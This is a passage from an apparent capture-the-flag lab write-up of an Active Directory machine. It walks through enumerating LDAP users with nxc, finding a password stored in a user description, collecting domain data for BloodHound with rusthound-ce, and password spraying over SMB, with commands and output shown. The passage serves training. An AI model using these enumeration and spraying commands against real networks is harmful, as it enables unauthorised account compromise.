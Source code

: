With the password cracked, we can now try to authenticate to the `LDAP` service using the `nxc` tool to enumerate the users in the domain (specially looking at their **description** field which sometimes holds valuable information).

```bash
nxc ldap dc01.infiltrator.htb -u l.clark -p '<REDACTED>' --users
```

![NON](file-20250606130756365.png)

We can see that our credentials are valid and we are able to enumerate the users in the domain, we can see that the user `k.turner` has a password in the description field, which we can use to try to authenticate just like we did with the `l.clark` user.

```bash
nxc smb dc01.infiltrator.htb -u k.turner -p '<REDACTED>'

SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\k.turner:<REDACTED> STATUS_LOGON_FAILURE
```

From the `STATUS_LOGON_FAILURE` we can see that the password is not valid. 

### Bloodhound Enumeration

With our valid user `l.clark`, we can now use the `rusthound` tool to gather information about the domain, which we can use `bloodhound` to visualize it graphically.

```bash
rusthound-ce -u "l.clark" -p "<REDACTED>" -f "dc01.infiltrator.htb" -d "infiltrator.htb" -n "10.10.11.31" -c All -z
```

With our collected data, we can ingest it into `bloodhound` to visualize the relationships between the users, groups, and computers in the domain.

Looking at our user's `Outbound Object Control` edges, we can see that we can enroll in some templates, suggesting the presence of an `ADCS` (Active Directory Certificate Services) server, which we can use to request certificates users and possibly escalate our privileges later on.

![NON](file-20250606131818488.png)

From here, our user didn't have any interesting permissions, so, in order to see if any other user has reusable credentials, we can try to use the password we cracked from the `l.clark` user with any other user in the domain, which is a technique known as **password spraying**.

```bash
nxc smb dc01.infiltrator.htb -u valid_users -p '<REDACTED>'

SMB         10.10.11.31     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\d.anderson:<REDACTED> STATUS_ACCOUNT_RESTRICTION
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\o.martinez:<REDACTED> STATUS_LOGON_FAILURE
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\k.turner:<REDACTED> STATUS_LOGON_FAILURE
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\a.walker:<REDACTED> STATUS_LOGON_FAILURE
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\m.harris:<REDACTED> STATUS_ACCOUNT_RESTRICTION
SMB         10.10.11.31     445    DC01             [-] infiltrator.htb\e.rodriguez:<REDACTED> STATUS_LOGON_FAILURE
SMB         10.10.11.31     445    DC01             [+] infiltrator.htb\l.clark:<REDACTED>
```
